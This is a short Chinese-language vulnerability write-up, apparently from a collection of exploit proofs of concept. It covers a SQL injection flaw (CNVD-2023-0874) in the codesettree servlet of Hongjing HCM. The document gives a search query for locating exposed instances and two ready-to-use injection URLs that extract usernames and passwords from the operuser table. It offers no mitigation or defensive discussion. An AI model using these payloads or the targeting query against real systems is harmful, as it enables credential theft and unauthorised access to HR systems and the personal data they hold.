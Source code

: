 # 

# 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-0874

## 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

## 漏洞影响

宏景 HCM

## 网络测绘

```
app="HJSOFT-HCM"
```

## 漏洞复现

登陆页面

![image-20230704113309837](./images/image-20230704113309837.png)

验证POC

```
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

![image-20230704113329354](./images/image-20230704113329354.png)
